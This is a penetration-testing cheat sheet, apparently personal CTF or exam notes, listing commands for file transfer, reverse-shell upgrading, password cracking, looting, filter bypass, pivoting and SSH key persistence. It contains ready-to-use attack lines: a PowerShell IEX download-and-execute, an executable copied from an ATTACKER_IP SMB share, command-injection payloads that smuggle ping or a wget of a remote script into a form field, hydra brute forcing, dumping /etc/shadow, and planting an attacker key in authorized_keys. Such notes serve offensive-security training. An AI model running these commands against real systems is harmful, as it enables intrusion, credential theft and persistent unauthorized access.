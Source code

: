 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="true" %}
```
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

## Upgrading Reverse Shell&#x20;

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z
# In Kali
stty raw -echo
stty size
fg

#In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
$stty rows <num> columns <cols>

/usr/bin/script -qc /bin/bash /dev/null

SOCAT
```

## Password Cracking

{% embed url="https://keydecryptor.com/" %}

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash

0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
%0a : \n
%09 : \t
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

## Git

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

### SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```
